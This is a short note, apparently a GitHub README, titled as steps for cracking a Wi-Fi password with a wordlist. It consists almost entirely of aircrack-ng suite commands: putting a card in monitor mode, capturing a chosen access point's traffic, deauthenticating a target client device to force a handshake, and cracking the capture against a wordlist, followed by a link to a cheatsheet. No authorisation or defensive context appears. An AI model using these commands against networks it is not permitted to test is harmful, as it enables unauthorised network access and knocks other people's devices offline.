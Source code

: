 # Steps to cracking a wifi's password using a wordlist

airmon-ng start wlan0

airodump-ng wlan0mon

airodump-ng --ivs -w collection --bssid MAC -c 1 wlan0mon

aireplay-ng -0 20 -a AP-MAC -c TARGET_DEVICE wlan0mon

aircrack-ng collection.ivs -w wordlist.txt


# Cheatsheet

https://securityonline.info/aircrack-ng-cheatsheet/
